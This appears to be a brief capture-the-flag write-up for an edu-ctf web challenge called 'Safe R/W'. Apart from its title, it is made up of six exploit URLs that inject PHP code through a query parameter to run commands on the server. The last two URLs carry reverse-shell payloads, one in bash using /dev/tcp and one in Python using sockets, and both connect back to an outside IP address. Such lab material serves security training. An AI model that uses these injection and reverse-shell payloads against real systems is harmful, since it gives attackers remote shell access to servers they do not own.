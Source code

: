 # Safe R/W

1. https://edu-ctf.csie.org:10155/?f=data:,&i=data:,/meow&c=<?php system('ls')?>
2. https://edu-ctf.csie.org:10155/?f=data:,&i=data:,/meow&c=<?php echo `ls`?>
3. https://edu-ctf.csie.org:10155/?f=data:,&i=data:,/meow&c=<?php `$_GET['x']`?>
4. https://edu-ctf.csie.org:10155/?f=data:,&i=data:,/meow&c=<?php `$_GET["xx"]`?>&xx=ls&src=1 
5. https://edu-ctf.csie.org:10155/?f=data:,&i=data:,/meow&c=<?php `$_GET[x]`?>&x=bash -i >& /dev/tcp/140.113.68.171/1234 0>&1&src=1
6. https://edu-ctf.csie.org:10155/?f=data:,&i=data:,/meow&c=<?php `$_GET[x]`?>&x=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("140.113.68.171",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
